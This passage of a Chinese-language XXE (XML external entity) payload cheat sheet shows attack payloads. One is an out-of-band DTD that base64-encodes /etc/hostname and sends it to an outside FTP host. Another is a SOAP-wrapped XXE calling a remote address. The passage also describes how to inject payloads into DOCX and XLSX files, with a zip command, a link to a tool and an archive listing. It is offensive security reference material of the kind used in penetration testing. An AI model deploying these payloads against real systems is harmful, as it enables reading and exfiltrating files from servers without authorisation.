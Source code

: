 _xxe.xml_:

```xml
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=/etc/hostname">
<!ENTITY % param1 "<!ENTITY exfil SYSTEM 'ftp://example.org:2121/%data;'>">
```

### SOAP中的XXE

```xml
<soap:Body>
  <foo>
    <![CDATA[<!DOCTYPE doc [<!ENTITY % dtd SYSTEM "http://x.x.x.x:22/"> %dtd;]><xxx/>]]>
  </foo>
</soap:Body>
```

### DOCX文件中的XXE

Open XML文件格式（将有效负载注入任何.xml文件）：

- /_rels/.rels
- [Content_Types].xml
- 默认主文档部分
    - /word/document.xml
    - /ppt/presentation.xml
    - /xl/workbook.xml

然后更新文件`zip -u xxe.docx [Content_Types].xml`

工具：[https://github.com/BuffaloWill/oxml_xxe](https://github.com/BuffaloWill/oxml_xxe)

```xml
DOCX/XLSX/PPTX
ODT/ODG/ODP/ODS
SVG
XML
PDF (实验性)
JPG (实验性)
GIF (实验性)
```

### XLSX文件中的XXE

XLSX结构：

```ps1
$ 7z l xxe.xlsx
[...]
   Date      Time    Attr         Size   Compressed  Name
------------------- ----- ------------ ------------  ------------------------
2021-10-17 15:19:00 .....          578          223  _rels/.rels
2021-10-17 15:19:00 .....          887          508  xl/workbook.xml
2021-10-17 15:19:00 .....         4451          643  xl/styles.xml
2021-10-17 15:19:00 .....         2042          899  xl/worksheets/sheet1.xml
2021-10-17 15:19:00 .....          549          210  xl/_rels/workbook.xml.rels
2021-10-17 15:19:00 .....          201          160  xl/sharedStrings.xml
2021-10-17 15:19:00 .....          731          352  docProps/core.xml
2021-10-17 15:19:00 .....          410          246  docProps/app.xml
2021-10-17 15:19:00 .....         1367          345  [Content_Types].xml
------------------- ----- ------------ ------------  ------------------------
2021-10-17 15:19:00              11216         3586  9 files
```
